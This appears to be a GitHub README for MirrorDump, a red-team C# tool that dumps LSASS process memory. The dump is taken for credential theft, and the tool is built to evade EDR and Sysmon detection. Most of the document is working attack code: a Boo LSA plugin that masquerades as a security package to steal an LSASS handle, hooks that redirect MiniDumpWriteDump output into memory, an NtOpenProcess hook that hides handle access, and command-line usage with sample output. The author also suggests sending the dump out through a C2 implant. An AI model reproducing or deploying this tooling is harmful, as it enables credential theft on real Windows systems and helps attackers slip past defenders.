

# MirrorDump 
## Introduction
As I am sure some of you are aware from the occasional ramblings and screenshots on twitter, I am a big fan of .NET based offensive tooling.  Not because it’s trendy or cool, but because of the development speed and ease of testing and debugging in comparison to C/C++.

A month or so ago I developed a .NET BOF for Cobalt Strike that was able to create a memory dump of LSASS directly in memory without touching disk at all.  The solution is based on hooking Windows APIs that are involved as part of the file writing process when the `MiniDumpWriteDump` API is invoked.  What I didn’t like about this solution was the dependency on both x86 and x64 native DLL’s that were reflectively loaded when executed.  The native DLL’s handled the hooking component using the brilliant [MinHook](https://github.com/TsudaKageyu/minhook) library and the correct architecture was chosen and loaded at runtime.

I set myself the challenge of porting this solution to a pure managed C# solution that did not involve any native code at all.  As part of this challenge, I also wanted to find a more covert way to obtain the LSASS handle than using the `OpenProcess` API directly from the memory dumping tool.  Using `OpenProcess` directly is a sure-fire way to raise red flags with various EDR solutions that we commonly see today when you target the lsass process.

## Say Boooo to OpenProcess

Recently I have also fallen in love with Boo for offensive tooling.  Boo is a programming language that implements the Microsoft Dynamic Language Runtime (DLR) that will allow the developer yielding it’s power to generate .NET assemblies both in memory and on disk on the fly.  The language is not too dissimilar to python with some additional .NET based semantics.

The idea was to load an LSA SSP/AP plugin, masquerading itself as a genuine authentication provider to the host operating system.  Once loaded within the LSA eco system, grab a handle to it’s own process (lsass.exe) and duplicate into our dumping tool ready to create the minidump.  There are examples of previous work that have used LSA authentication providers to capture credentials.  One such example is the [Intercepting Logon Credentials via Custom Security Support Provider and Authentication Packages](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/intercepting-logon-credentials-via-custom-security-support-provider-and-authentication-package) by ired.team.  But in our case we are looking to duplicate the lsass handle instead using a Boo script that is compiled to a .NET assembly on the fly.

```python
from System import IntPtr
import System.Reflection
import System.Runtime.InteropServices
import MirrorDump

[DllImport("kernel32.dll")]
def DuplicateHandle(sourceProcess as IntPtr, sourceHandle as IntPtr, targetProcess as IntPtr, ref targetHandle as IntPtr, 
	desiredAccess as uint, inherit as bool, options as uint) as bool:
	pass

[DllImport("kernel32.dll")]
def OpenProcess(processAccess as uint, inherit as bool, processId as int) as IntPtr:
	pass

[DllImport("kernel32.dll")]
def GetCurrentProcess() as IntPtr:
	pass

[DllImport("kernel32.dll")]
def CloseHandle(hObject as IntPtr) as bool:
	pass

[DllExport]
def SpLsaModeInitialize(LsaVersion as int, PackageVersion as IntPtr, ppTables as IntPtr, pcTables as IntPtr) as int:	

	Marshal.WriteInt32(PackageVersion, 1);
	Marshal.WriteInt32(pcTables, 0);
	Marshal.WriteIntPtr(ppTables, IntPtr.Zero)
	
	handle = OpenProcess(0x40, true, {0})
	targetHandle = IntPtr.Zero
	DuplicateHandle(GetCurrentProcess(),GetCurrentProcess(), handle, targetHandle, 0x1F0FFF, false, 1)
	CloseHandle(handle)

	return 0
```

As you can see from the Boo code above, the LSA plugin is very simple.  It has one function called `SpLsaModeInitialize` and a few imports from kernel32 that facilitate the duplication of the LSASS handle.  The `OpenProcess` API call that you can see is opening a handle to the dumping process that we will be duplicating the lsass handle into.  You will also notice that the third parameter is in the form of a .NET format string argument and not a PID.  This is due to the fact that we are generating our .NET assembly on the fly and the PID argument is embedded at runtime like below;

```c#
string script = string.Format(GetResourceFileAsString("MiniDumpToMemSharp.Lsa.LsaProviderDuper.boo"), Process.GetCurrentProcess().Id);
AssemblyBuilder assembly = (AssemblyBuilder)CompileBooAssembly(script, referenceAssemblies, dllName, true); 
```

One other thing to note is the `[DllExport]` attribute attached to the `SpLsaModeInitialize` function.  The LSA subsystem expects an LSA plugin to expose this function to be eligible for loading.  Believe it or not, .NET DLL’s can also export functions and be called from native code too, exactly like the DllImport functionality but in reverse.  Adam Chester done a great post on this back in 2018 called [RunDLL32 your .NET (AKA DLL exports from .NET)](https://blog.xpnsec.com/rundll32-your-dotnet).

But this functionality is not natively supported by the DLR compiler directly.  As Adam mentioned in his blog post, there is the [DllExport](https://github.com/3F/DllExport) project by Denis Kuzmin that has support for this, but unfortunately because we are generating our LSA DLL on the fly, it was not possible to use this.  I needed to find a way to do this with DLR assemblies.

Enter dnlib.  dnlib is a library that facilitates reading and modifying .NET modules and assemblies.  One of it’s capabilities is marking methods within the assembly as exported.  Using dnlib, we search the recently compiled LSA plugin assembly from our boo script for functions that are tagged with the DllExport attribute.  Once found, the function is marked as exportable.

```c#
//Little trick here that uses dnlib to search for all functions within our generated
//assembly that has the DllExport attribute.  We then mark that function as a native export
//and remove the attribute so that we don't have a dependency on the main exe that defines the DllExport attribute
foreach (var type in module.GetTypes()) {
    foreach (var method in type.Methods) {
        var toRemove = new List<CustomAttribute>();
        foreach (var attrib in method.CustomAttributes) {
            if (attrib.TypeFullName == typeof(DllExportAttribute).FullName) {
                method.ExportInfo = new MethodExportInfo();
                var retType = method.MethodSig.RetType;
                method.MethodSig.RetType = new CModOptSig(module.CorLibTypes.GetTypeRef("System.Runtime.CompilerServices", "CallConvStdCall"), retType);
                toRemove.Add(attrib);
            }
        }
        toRemove.ForEach(remove => method.CustomAttributes.Remove(remove));
    }
}

var moduleOptions = new ModuleWriterOptions(module);
moduleOptions.PEHeadersOptions.Machine = IntPtr.Size == 8 ? dnlib.PE.Machine.AMD64 : dnlib.PE.Machine.I386;
moduleOptions.Cor20HeaderOptions.Flags &= ~(dnlib.DotNet.MD.ComImageFlags.ILOnly);
if (IntPtr.Size == 4) {
    moduleOptions.Cor20HeaderOptions.Flags |= dnlib.DotNet.MD.ComImageFlags.Bit32Required;
    moduleOptions.Cor20HeaderOptions.Flags &= ~(dnlib.DotNet.MD.ComImageFlags.Bit32Preferred);
} 
```

The final compiled .NET LSA assembly looks something similar to this in dnSpy



## MinHook.NET

With the LSA plugin out the way, it was now time to tackle hooking the file writing API's involved when a minidump is written. I spent some time porting the MinHook library to .NET and subsequently releasing the library in tandem with the MirrorDump tool.  I wont go into too much detail on the port as it's very similar to MinHook itself.  MinHook.NET uses a slightly modified version of the [SharpDisasm](https://github.com/spazzarama/SharpDisasm) project for dissasembling the instructions at the target function for hooking.

I have tried to keep the API as similar as possible to the native version of MinHook, but here is a quick example of hooking `MessageBoxA` API

```c#

//PInvoke import of the MessageBoxW API from user32.dll 
[DllImport("user32.dll", SetLastError = true, CharSet= CharSet.Unicode)]
public static extern int MessageBoxW(int hWnd, String text, String caption, uint type);

//We need to declare a delegate that matches the prototype of the hooked function
[UnmanagedFunctionPointer(CharSet=CharSet.Unicode)]
delegate int MessageBoxWDelegate(IntPtr hWnd, string text, string caption, uint type);

//A variable to store the original function so that we can call
//within our detoured MessageBoxW handler
MessageBoxWDelegate MessageBoxW_orig;

//Our actual detour handler function
int MessageBoxW_Detour(IntPtr hWnd, string text, string caption, uint type){
    return MessageBoxW_orig(hWnd, "HOOKED: " + text, caption, type);
}

void ChangeMessageBoxMessage(){

    hookEngine = new HookEngine();
    MessageBoxW_orig = hookEngine.CreateHook("user32.dll", "MessageBoxW", new MessageBoxWDelegate(this.MessageBoxW_Detour));
    hookEngine.EnableHooks();

    //Call the PInvoke import to test our hook is in place
    MessageBox(IntPtr.Zero, "Text", "Caption", 0);

    hookEngine.DisableHooks();
}
```

You can find the standalone version of MinHook.Net on [GitHub!](https://github.com/CCob/MinHook.NET)

## Misdirection

Under the watchful eye of a debugger, I had observed that during the `MiniDumpWriteDump` API call, only three Windows API's relating to file writing were called.

* GetFileSize
* SetFilePointer
* WriteFile

If we could hook these three API's and trick `MiniDumpWriteDump` that all went well on the file writing front, we could capture the write buffers and redirect them to memory only.

### GetFileSize

```c#
static uint GetFileSize(IntPtr fileHandle, out uint fileSizeHigh) {

    DumpContext dc = GetDumpContextFromHandle(fileHandle);
    if (dc == null)
        return GetFileSize_orig(fileHandle, out fileSizeHigh);

    fileSizeHigh = 0;
    return dc.Size;
}
```

Lets start with the easy one, `GetFileSize`.  Each hooked function has a check at the top to determine if the `fileHandle` being worked on is the one of interest.  If not, then a call to the original function is made.  If it is our handle in question then we simply return our DumpContext structure and return the tracked virtual file size.  We use a magic handle value (0x55555555) to spot the difference between a real file handle and our virtual minidump file handle.  

### SetFilePointer

```c#
static uint SetFilePointer(IntPtr fileHandle, int distanceToMove, ref int distanceToMoveHigh, MoveMethod moveMethod) {

    DumpContext dc = GetDumpContextFromHandle(fileHandle);
    if (dc == null)
        return SetFilePointer_orig(fileHandle, distanceToMove, ref distanceToMoveHigh, moveMethod);

    switch (moveMethod) {
        case MoveMethod.Begin:
            dc.CurrentOffset = (uint)distanceToMove;
            break;
        case MoveMethod.Current:
            dc.CurrentOffset = (uint)(dc.CurrentOffset + distanceToMove);
            break;
        case MoveMethod.End:
            dc.CurrentOffset = (uint)(dc.Size + distanceToMove);
            break;
        default:
            return 0xffffffff;
    }

    return dc.CurrentOffset;
}
```

The `SetFilePointer` hook is tasked with tracking the position of our in memory file pointer.  Again, nothing too fancy other than calculating where the new position is, based on the current position and the move method and distance requested.

### WriteFile

```c#
static bool WriteFile(IntPtr fileHandle, IntPtr buffer, uint numberOfBytesToWrite, out uint numberOfBytesWritten, IntPtr overlapped) {

    DumpContext dc = GetDumpContextFromHandle(fileHandle);
    if (dc == null)
        return WriteFile_orig(fileHandle, buffer, numberOfBytesToWrite, out numberOfBytesWritten, overlapped);

    if (dc.Limit != 0 && dc.CurrentOffset + numberOfBytesToWrite > dc.Limit) {
        SetLastError(ERROR_DISK_FULL);
        numberOfBytesWritten = 0;
        return false;
    } else if (dc.CurrentOffset + numberOfBytesToWrite > dc.Data.Length) {
        dc.Resize(dc.CurrentOffset + numberOfBytesToWrite);
    }

    Marshal.Copy(buffer, dc.Data, (int)dc.CurrentOffset, (int)numberOfBytesToWrite);
    dc.CurrentOffset += numberOfBytesToWrite;
    numberOfBytesWritten = numberOfBytesToWrite;

    int growth = (int)dc.CurrentOffset - (int)dc.Size;
    if (growth > 0) {
        dc.Size += (uint)growth;
    }

    return true;
}
```

Next we have the `WriteFile` function hook.  This function is tasked with expanding our in memory buffer when we detect that a file write has passed the end of our virtual file size and to also copy the content of the pending write to our in memory buffer instead of a real file.  Because memory dumps can be large, I added the concept of a memory dump size limit.  In this scenario if a memory dump goes beyond the limit, we simulate an ERROR_DISK_FULL error to prevent potential memory exhaustion on machines with limited resources.


```c#
static int NtOpenProcess(IntPtr ProcessHandle, uint desiredAccess, IntPtr ObjectAttributes, IntPtr ClientId) {

    int pid = Marshal.ReadInt32(ClientId);
    if(pid != lsassPid)
        return NtOpenProcess_orig(ProcessHandle, desiredAccess, ObjectAttributes, ClientId);

    IntPtr currentProcess = new IntPtr(-1);
    IntPtr newLsassHandle;

    if(!DuplicateHandle(currentProcess, lsassHandle, currentProcess, out newLsassHandle, 0, false, 0x2)) {
        Console.WriteLine("[!] Failed to fake NtOpenProcess on LSASS PID");
        return Marshal.GetLastWin32Error();
    }

    Marshal.WriteIntPtr(ProcessHandle, newLsassHandle);
    return 0;
}
```

Finally we have the `NtOpenProcess` hook.  I have to give a specific shout out to @TheRealWover here.  After some discussions relating to the `MiniDumpWriteDump` he pointed out that even though you use a stolen handle on LSASS, the internals of `MiniDumpWriteDump` will open an additional handle to the LSASS process.  This of course will trigger event ID 10 in SysMon.  After some digging around myself, I found the same behavior.  Internally, `MiniDumpWriteDump` eventually triggers a call to `RtlQueryProcessDebugInformation` which is where the source of the additional handle comes from.

So in our hook function we simulate a call to `NtOpenProcess` by duplicating the stolen handle that we already have for lsass.  This will mean real NtOpenProcess is called and no event ID 10 is generated from SysMon where MirrorDump is the source process and lsass is the target process.


## Cleanup

Once the memory dump had been taken, the original end goal was to unload the LSA plugin DLL and delete it.  I was hoping that the `DeleteSecurityPackage` API call would sort all this out for me.

But every time I called `DeleteSecurityPackage` I was faced with error 0x80090302 (SEC_E_UNSUPPORTED_FUNCTION).  I spent quite some time implementing further mandatory functions that should be implemented as part of a real LSA plugin.  Nothing worked, I still got the same error.

I then came across this [blog](http://cybernigma.blogspot.com/2014/03/using-sspap-lsass-proxy-to-mitigate.html) post by CyberNigma.  It turns out Microsoft have not implemented the `DeleteSecuritPackage` function even though it is documented on MSDN.  So unfortunately a reboot is required to remove the LSA DLL.  There is potential for injecting shellcode into lsass and unloading it now that we have a handle.  But I'll leave that as an exercise for the reader ;)  

## Demo

### Usage

The current POC application will take the uncompressed in memory dump and save it to a zip file.  But this could equally be exfilled without touching disk by uploading to a server or sending the data back through your C2 implant.

The tool can be run without any arguments which will use sane defaults for the output filename and the DLL name used for generating the LSA plugin.  There is no default limit to the size of the in memory dump, so use with caution if you have not specified the limit (in bytes).  

```shell
.\MirrorDump.exe --help
  -f, --filename=VALUE       Output path for generated zip file
  -d, --dllName=VALUE        Output LSA DLL name
  -l, --limit=VALUE          The maximum amount of memory the minidump is
                               allowed to consume
  -h, --help                 Display this help
```

### Example

Example below which will create and load an LSA plugin DLL called `LegitLSAPlugin.dll`, the in memory dump of LSASS will end up in a ZIP file called `NotLSASS.zip` and we will limit the memory used to 100MB

```
.\MirrorDump.exe -f "NotLSASS.zip" -d "LegitLSAPlugin.dll" -l 1073741824
[+] Generating new LSA DLL LegitLSAPlugin.dll targetting PID 572.....Done.
[+] LSA securiy package loaded, searching current process for duplicated LSASS handle
[+] Found duplicated LSASS process handle 0x3ec
[=] Dumping LSASS memory.........
[+] Minidump successfully saved to memory, size 88.06MB
[+] Minidump compressed and saved to NotLSASS.zip
```

## References and Special Thanks

* https://github.com/byt3bl33d3r/OffensiveDLR
* https://blog.xpnsec.com/rundll32-your-dotnet/
* https://github.com/0xd4d/dnlib
* https://github.com/3F/DllExport
* https://github.com/TsudaKageyu/minhook
* https://github.com/spazzarama/SharpDisasm
* https://www.ired.team/offensive-security/credential-access-and-credential-dumping/intercepting-logon-credentials-via-custom-security-support-provider-and-authentication-package